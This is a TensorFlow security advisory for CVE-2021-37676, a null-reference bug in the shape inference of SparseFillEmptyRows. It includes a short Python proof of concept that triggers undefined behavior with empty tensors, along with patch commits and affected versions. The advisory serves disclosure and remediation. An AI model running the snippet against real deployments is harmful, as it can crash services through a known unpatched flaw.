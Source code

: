 ## TFSA-2021-149: Reference binding to nullptr in shape inference

### CVE Number
CVE-2021-37676

### Impact
An attacker can cause undefined behavior via binding a reference to null pointer
in `tf.raw_ops.SparseFillEmptyRows`:

```python
import tensorflow as tf

tf.compat.v1.disable_v2_behavior()
tf.raw_ops.SparseFillEmptyRows(
  indices = tf.constant([], shape=[0, 0], dtype=tf.int64),
  values = tf.constant([], shape=[0], dtype=tf.int64),
  dense_shape = tf.constant([], shape=[0], dtype=tf.int64),
  default_value = 0)
```

The shape inference
[implementation](https://github.com/galeone/tensorflow/blob/460e000de3a83278fb00b61a16d161b1964f15f4/tensorflow/core/ops/sparse_ops.cc#L608-L634)
does not validate that the input arguments are not empty tensors.

### Patches
We have patched the issue in GitHub commit
[578e634b4f1c1c684d4b4294f9e5281b2133b3ed](https://github.com/galeone/tensorflow/commit/578e634b4f1c1c684d4b4294f9e5281b2133b3ed).

The fix will be included in TensorFlow 2.6.0. We will also cherrypick this
commit on TensorFlow 2.5.1, TensorFlow 2.4.3, and TensorFlow 2.3.4, as these are
also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/galeone/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang of Baidu Security.
